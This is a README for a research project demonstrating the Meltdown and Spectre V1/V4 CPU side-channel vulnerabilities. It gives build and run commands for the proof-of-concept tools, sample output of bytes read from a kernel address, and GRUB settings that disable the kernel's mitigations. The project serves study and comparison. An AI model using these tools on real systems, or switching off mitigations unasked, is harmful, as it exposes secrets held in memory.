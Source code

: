 # Meltdown / Spectre
This project contains code that demonstrates how Meltdown and Spectre vulnerabilities work and shows the differences between them. It also contains measurement functions for comparing results.
## Meltdown [(CVE-2017-5754)](https://nvd.nist.gov/vuln/detail/CVE-2017-5754)
The Meltdown implementation contains three types of malicious payload that were introduced in the original Meltdown [repository](https://github.com/IAIK/meltdown).
- meltdown
- meltdown_nonull
- meltdown_fast
#### Build
```
make
```
or
```
make meltdown
```
#### Run
```
./meltdown [address] [length]
```
```
./meltdown_nonull [address] [length]
```
```
./meltdown_fast [address] [length]
```
Run examples without arguments to read data from local process memory.
## Spectre Variant 1 [(CVE-2017-5753)](https://nvd.nist.gov/vuln/detail/CVE-2017-5753)
Spectre implementation from the original Spectre [paper](https://spectreattack.com/spectre.pdf).
#### Build
```
make
```
or
```
make spectre_v1
```
#### Run
```
./spectre_v1 [address] [length]
```
Run example without arguments to read data from local process memory.
## Spectre Variant 4 [(CVE-2018-3639)](https://nvd.nist.gov/vuln/detail/CVE-2018-3639)
Implementation of the Speculative Store Bypass, aka Spectre V4. This vulnerability works worse than Meltdown or Spectre V1 and doesn't work under Virtual Machine. Code contains two variants of the malicious payload. The first variant is written in C and its instructions are compiler-dependent. For example, GCC does unnecessary register manipulation. The second variant is written in assembly language and remains unmodified after compilation.
- spectre_v4
- spectre_v4_asm
#### Build
```
make
```
or
```
make spectre_v4
```
#### Run
```
./spectre_v4 [address] [length]
```
```
./spectre_v4_asm [address] [length]
```
Run examples without arguments to read data from local process memory.
## Testing
The Meltdown repository contains [tools](https://github.com/IAIK/meltdown/blob/master/README.md#demo-4-read-physical-memory-physical_reader) that can be used to test these vulnerabilities on Linux systems. Use `secret` tool to put the secret string into memory. Use `direct_physical_map.sh` script to extract the physical memory offset from the kernel.
### Results
The results table contains information for all bytes read, including: virtual address, status, 1st and 2nd best guesses with their scores, number of attempts, number of zero checks.
```
./meltdown 0xffff97480b415188 50
CVE-2017-5754: Meltdown (null)
Flush+Reload: 323 cycles, Reload only: 36 cycles
Flush+Reload threshold: 131 cycles
Reading 50 bytes in 1000 tries:
0xffff97480b415188    STATUS  1st   SCORE  2nd   SCORE TRIES ZEROS
0xffff97480b415188      Zero 0x43 C     3    -       -   945     5
0xffff97480b415189   Success 0x6F o     3    -       -     3     -
0xffff97480b41518a   Success 0x6E n     3    -       -   215     -
0xffff97480b41518b   Success 0x67 g     3    -       -     3     -
0xffff97480b41518c   Success 0x72 r     3    -       -     3     -
0xffff97480b41518d   Success 0x61 a     3    -       -     4     -
...
```
```
./meltdown_fast 0xffff97480b415188 50
CVE-2017-5754: Meltdown (fast)
Flush+Reload: 397 cycles, Reload only: 38 cycles
Flush+Reload threshold: 157 cycles
Reading 50 bytes in 1000 tries:
0xffff97480b415188    STATUS  1st   SCORE  2nd   SCORE TRIES ZEROS
0xffff97480b415188      Zero 0x43 C     5 0x58 X     1   776   757
0xffff97480b415189      Zero 0x6F o     5 0xD0       1   901   797
0xffff97480b41518a      Zero 0x6E n     5 0x43 C     1   507   395
0xffff97480b41518b   Success 0x67 g     3    -       -   147     -
0xffff97480b41518c      Zero 0x72 r     3 0x5D ]     1  1000   862
0xffff97480b41518d      Zero 0x61 a     3    -       -   546   115
...
```
```
./spectre_v4 0xffff97480b415188 50
CVE-2018-3639: Spectre Variant 4 (compiler-dependent)
Flush+Reload: 379 cycles, Reload only: 40 cycles
Flush+Reload threshold: 153 cycles
Reading 50 bytes in 4000 tries:
0xffff97480b415188    STATUS  1st   SCORE  2nd   SCORE TRIES ZEROS
0xffff97480b415188   Unclear 0xFF       1 0xF5       1  4000     -
0xffff97480b415189   Unclear 0xB7       1 0x16       1  4000     -
0xffff97480b41518a   Unclear 0x8E       1 0x79 y     1  4000     -
0xffff97480b41518b Undefined    -       -    -       -  4000     -
0xffff97480b41518c   Unclear 0xEB       1 0x75 u     1  4000     -
0xffff97480b41518d   Unclear 0xD4       1 0xCA       1  4000     -
...
```
Byte status can be one of:
- `Success` - byte was detected successfully `(score_1 >= score_2 * 2)`
- `Unclear` - the result is unclear, check also the second guess
- `Zero` - the result is defined, but a zero byte with best score was detected (see ZEROS column). Read more about this case in the original Meltdown [paper](https://meltdownattack.com/meltdown.pdf)
- `Undefined` - no results, byte undefined
## Implementation for Windows
Spectre V1 and V4 examples can be compiled for Windows using the MinGW compiler. While Meltdown implementation uses POSIX signals that are not fully supported on Windows.
#### Build
```
make win
```
#### Run
```
spectre_v1.exe [address] [length]
```
```
spectre_v4.exe [address] [length]
```
```
spectre_v4_asm.exe [address] [length]
```
Run examples without arguments to read data from local process memory.
## Additional Information
### Check Meldown and Spectre protection on Linux
Run commands:
```
$ cat /sys/devices/system/cpu/vulnerabilities/meltdown
Vulnerable    
$ cat /sys/devices/system/cpu/vulnerabilities/spectre_v1
Vulnerable: __user pointer sanitization and usercopy barriers only; no swapgs barriers
```
### Disable Meldown and Spectre protection on Linux
Add or change this line in the file `/etc/default/grub`
```
GRUB_CMDLINE_LINUX="nospectre_v1 nopti"
```
Then run the following command and reboot the system:
```
sudo update-grub
```
## References
* [Spectre Paper](https://spectreattack.com/spectre.pdf)
* [Meltdown Paper](https://meltdownattack.com/meltdown.pdf)
* [Meltdown Source Code](https://github.com/IAIK/meltdown)
* [CVE-2017-5715: Spectre Variant 2 - Branch Target Injection](https://nvd.nist.gov/vuln/detail/CVE-2017-5715)
* [CVE-2017-5753: Spectre Variant 1 - Bounds Check Bypass](https://nvd.nist.gov/vuln/detail/CVE-2017-5753)
* [CVE-2017-5754: Meltdown Variant 3 - Rogue Data Cache Load](https://nvd.nist.gov/vuln/detail/CVE-2017-5754)
* [CVE-2018-3639: Spectre Variant 4 - Speculative Store Bypass](https://nvd.nist.gov/vuln/detail/CVE-2018-3639)
* [CVE-2018-3640: Meltdown Variant 3a - Rogue System Register Read](https://nvd.nist.gov/vuln/detail/CVE-2018-3640)
